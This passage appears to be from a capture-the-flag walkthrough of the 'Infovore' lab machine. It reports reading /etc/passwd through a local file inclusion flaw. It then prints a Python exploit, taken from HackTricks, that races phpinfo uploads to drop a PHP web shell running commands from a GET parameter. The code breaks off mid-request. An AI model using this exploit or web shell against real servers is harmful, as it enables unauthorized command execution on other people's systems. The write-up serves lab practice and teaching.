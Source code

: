 **Next Step: Accessing `/etc/passwd`**

After running the fuzzing tool, we successfully accessed the `/etc/passwd` file, potentially exposing sensitive system information.


![](/assets/post/infovore1/passwd.png)

**Step 14: Using Python Script**

We will use the following Python script obtained from:
https://book.hacktricks.xyz/es/pentesting-web/file-inclusion/lfi2rce-via-phpinfo


## Python exploit 
```py
#!/usr/bin/python 
import sys
import threading
import socket

def setup(host, port):
    TAG="Security Test"
    PAYLOAD="""%s\r
<?php $c=fopen('/tmp/g','w');fwrite($c,'<?php passthru($_GET["f"]);?>');?>\r""" % TAG
    REQ1_DATA="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
%s
-----------------------------7dbff1ded0714--\r""" % PAYLOAD
    padding="A" * 5000
    REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
```